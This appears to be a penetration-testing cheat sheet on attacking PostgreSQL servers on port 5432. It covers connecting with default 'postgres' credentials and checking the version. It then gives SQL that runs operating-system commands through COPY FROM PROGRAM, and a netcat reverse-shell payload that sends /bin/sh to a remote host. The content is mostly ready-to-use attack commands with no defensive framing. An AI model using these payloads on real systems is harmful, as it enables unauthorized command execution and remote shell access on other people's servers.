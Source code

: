 ## TCP 5432 Postgresql  

### Connecting to the database
`psql -h HOST/IP -p PORT -U USER`  

Default username and database are both `postgres`   


### Determine the version  
`show version();`  

 
### Command Execution in Postgresql  >= 9.3

```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'COMMAND';  
SELECT * FROM cmd_exec;  
```
<i>COMMAND</i> is the command to pass onto the operating system.  
Output of the command is shown after execution of the final SELECT command.  

**For reverse shell**:  
```
DROP TABLE IF EXISTS cmd_exec;  
CREATE TABLE cmd_exec(cmd_output text);  
COPY cmd_exec FROM PROGRAM 'nc HOST/IP PORT -e /bin/sh & 2>/dev/null'; 
SELECT * FROM cmd_exec;  
```
